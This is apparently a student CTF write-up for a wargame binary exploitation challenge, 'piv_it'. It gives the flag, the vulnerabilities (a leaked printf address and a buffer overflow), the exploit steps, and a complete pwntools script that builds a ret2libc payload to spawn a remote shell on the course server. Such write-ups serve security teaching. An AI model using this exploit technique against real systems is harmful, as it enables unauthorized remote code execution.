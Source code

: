 nx-1 piv_it
===========================

Flag: 6447{38b126bc-24b0-404d-81db-7a2f74ea4941}

General overview of problems faced
-------------------------------------
- The postamble was very confusing with esp being moved multiple times from multiple registers
- had to test which libc version was being used as there were 2 possible libc versions available based on the infoleak

List of vulnerabilities
--------------------
1. Infoleak: we are given the address to the `printf` function
2. Buffer overflow: The program uses `read` to take up to 52 bytes of input into a fixed length buffer which is smaller than 52 bytes. Therefore we can overflow the buffer and overwrite memory after it. Using rop and ret to libc 

Steps to exploit
------------------
1. Record the `printf` address pointer
2. Use a libc database to find which libc library is being used and using the given offsets, calculate the system address and the "/bin/sh" string address. (if there are 2 choices, select the ubuntu10 version)
3. Send as a payload:
    - the address 0x08048199 in little endian format 34 times
    - the calculated system address
    - 4 bytes to replace return address
    - the calcuated "/bin/sh" address
    - 1 random char to redirect esp into your buffer
4. Because of aslr, you might need to repeat the process multiple times
4. Congratulations you now have a shell

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

def main():
    context.terminal = "/bin/sh"
    h = "wargames.6447.sec.edu.au"
    p = 8001

    ret_address = 0x08048199
    r_char = "\x00" # use a semi-random char and hope aslr treats you well

    i = 0
    while 1:
        i += 1
        print i

        r = remote( h, p )

        r.recvuntil("random number: ")
        resp = r.recvline().strip()
        print resp

        printf_address = int(resp, 16)
        system_address = printf_address - 0xe8d0
        bin_sh_string_add = printf_address + 0x11239b

        payload = p32(ret_address) * 34 + p32(system_address) + p32(bin_sh_string_add) * 2 + r_char

        r.send(payload)
        resp = r.recvrepeat(0.4)
        print resp

        r.interactive()
        r.close()

if __name__ == '__main__':
    main()
```
